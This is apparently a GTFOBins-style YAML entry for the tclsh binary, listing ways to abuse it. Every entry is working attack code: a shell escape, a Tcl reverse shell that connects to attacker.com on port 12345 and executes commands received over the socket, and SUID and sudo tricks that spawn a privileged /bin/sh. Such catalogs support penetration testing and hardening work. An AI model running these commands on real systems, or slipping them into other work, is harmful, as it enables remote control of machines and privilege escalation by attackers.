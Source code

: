 ```yaml
---
functions:
  shell:
    - code: |
        tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        echo 'set s [socket $::env(RHOST) $::env(RPORT)];while 1 { puts -nonewline $s "> ";flush $s;gets $s c;set e "exec $c";if {![catch {set r [eval $e]} err]} { puts $s $r }; flush $s; }; close $s;' | tclsh
  suid:
    - code: |
        ./tclsh
        exec /bin/sh -p <@stdin >@stdout 2>@stderr
  sudo:
    - code: |
        sudo tclsh
        exec /bin/sh <@stdin >@stdout 2>@stderr
---
```

